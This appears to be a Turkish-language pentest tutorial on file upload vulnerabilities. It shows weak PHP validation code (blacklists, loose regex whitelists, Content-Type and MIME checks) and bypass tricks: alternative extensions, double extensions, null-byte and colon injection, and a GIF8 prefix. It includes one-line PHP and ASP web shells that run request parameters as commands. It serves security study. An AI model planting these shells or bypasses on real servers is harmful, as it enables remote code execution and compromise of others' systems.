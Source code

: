 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

### Whitelist
Whitelist Örneği:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Kod, dosya adının whitelisted resim uzantılarını içerip içermediğini regex ile kontrol ediyor. Sorun şu regex yalnızca dosya adının uzantıyı içerip içermediğine bakıyor, dosya adının uzantı ile bitip bitmediğini kontrol etmiyor. Regex sadece dosya adında izin verilen uzantıyı aradığı için, basit bir yöntem double extension kullanmak. Örneğin .jpg izinliyse, dosya adını shell.jpg.php yapabiliriz.

Bazı uygulamalar daha katı regex kullanır:
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```

Bu regex yalnızca dosya adının son uzantısını kontrol eder. Önceki saldırı burada işe yaramaz. Ancak bazı durumlarda, web sunucusu konfigürasyonu nedeniyle hala istismar edilebilir.

Örnek Apache Konfigürasyonu:
```
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

#### Character Injection
İzin verilen uzantıdan önce veya sonra bazı karakterler ekleyerek web uygulamasının dosya adını yanlış yorumlamasını sağlayabiliriz.
Örnek karakterler:
``` 
%20, %0a, %00, %0d0a, /, .\, ., …, :
```

Örnek:
- shell.php%00.jpg → PHP 5.X veya daha eski sürümlerde %00 sonrası dosya adı kesilir ve shell.php olarak kaydedilir, whitelist testi geçer.
- Windows sunucularda, kolon : eklenerek benzer bypass sağlanabilir (örn. shell.aspx:.jpg).

### Type Filter
Örnek PHP kodu:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

Burada $type, yüklenen dosyanın Content-Type başlığından alınıyor. Tarayıcılar dosya seçildiğinde Content-Type başlığını otomatik ayarlar (genellikle uzantıya bağlı olarak). Bu, istemci tarafında kontrol edildiği için manipüle edilebilir ve filtre atlanabilir.

#### MIME-Type Kontrolü
İkinci ve daha yaygın yöntem, dosyanın MIME-Type ile kontrol edilmesidir. MIME, dosyanın türünü genel format ve byte yapısına göre belirler. Genellikle dosyanın ilk birkaç byte’ı (Magic Bytes / File Signature) incelenir.
Örnek:
- Dosya GIF87a veya GIF89a ile başlıyorsa GIF kabul edilir.
- Dosya düz metin ile başlıyorsa Text dosyası kabul edilir.

PHP ile MIME-Type kontrolü:
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

MIME-Type ile Content-Type benzer, ancak PHP mime_content_type() fonksiyonunu kullanır.

Örnek olarak PHP web shell’in başına GIF8 eklenebilir.